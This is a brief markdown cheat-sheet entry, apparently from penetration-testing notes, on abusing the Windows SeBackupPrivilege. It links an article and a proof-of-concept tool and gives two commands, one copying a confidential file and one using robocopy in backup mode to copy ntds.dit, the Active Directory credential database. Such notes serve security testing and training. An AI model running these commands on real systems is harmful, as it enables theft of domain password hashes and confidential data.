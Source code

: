 # SeBackupPrivilege

Follow this [article](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

* [ ] If disabled then use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) and use

```
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

To copy files or robocopy

```
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
